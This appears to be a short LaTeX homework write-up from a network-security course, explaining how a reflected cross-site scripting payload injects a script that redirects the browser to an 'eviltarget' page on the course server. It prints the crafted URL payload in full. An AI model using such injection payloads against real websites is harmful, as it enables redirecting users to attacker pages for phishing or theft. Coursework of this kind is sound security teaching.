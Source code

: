 \documentclass[12pt,letterpaper]{article}
\begin{document}
It appears the trick in getting the server to ``play nice'' with our attack
is to prepend "http://" before the address in the script, e.g.
\begin{verbatim}
web.engr.oregonstate.edu/~rosulekm/netsec/hw/xss-hw3.php/">
<script>window.location.replace("http://~rosulekm/netsec/hw/xss-hw-eviltarget.php");
</script> <foo
\end{verbatim}

This results in a proper redirect, as the server basically prepends it without
the ``http://'' prefix. It accomplishes this by modifying the HTML body
to include a JavaScript section, which then replaces the location of the current
window with our desired target page.
\end{document}
